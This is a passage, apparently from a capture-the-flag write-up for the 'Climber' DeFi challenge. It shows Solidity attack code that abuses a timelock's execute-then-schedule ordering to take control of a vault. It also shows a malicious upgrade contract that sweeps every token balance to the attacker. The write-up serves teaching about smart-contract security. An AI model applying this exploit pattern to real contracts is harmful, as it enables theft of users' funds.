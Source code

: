 ```solidity
        targets.push(address(this));
        values.push(0);
        data.push(abi.encodeWithSignature("schedule()"));

        
        (bool success, ) = climberTimelock.call(
            abi.encodeWithSignature("execute(address[],uint256[],bytes[],bytes32)", targets, values, dataElements, bytes32(0))
        );
        require(success, "execute failed");
    }

    function schedule() public {
        ClimberTimelock(climberTimelock).schedule(targets, values, data, bytes32(0));
    }

    function upgradeVault(address _newImp) public{
        ClimberVault(climberVault).upgradeTo(_newImp);
    }
    function sweepFunds(address _token) public {
        ClimberVaultAttackUpgrade(climberVault).sweepFunds(_token);
    }
}
```

In attack contract there are more functions that I have not explained. Since we became the owner of vault contract, we can upgrade vault contract to our new logic contract, so I built a new logic contract that allow us to sweep all the funds.

```solidity
contract ClimberVaultAttackUpgrade is Initializable, OwnableUpgradeable, UUPSUpgradeable{

    //constructor() initializer {}
    uint256 private _lastWithdrawalTimestamp;
    address private _sweeper;
    address public attacker;

    function initialize(address _attacker) initializer external {
        __Ownable_init();
        __UUPSUpgradeable_init();
    }

    function sweepFunds(address tokenAddress) public {
        IERC20 token = IERC20(tokenAddress);
        require(token.transfer(tx.origin, token.balanceOf(address(this))), "Transfer failed");
    }

    function _authorizeUpgrade(address newImplementation) internal onlyOwner override {}

}
```
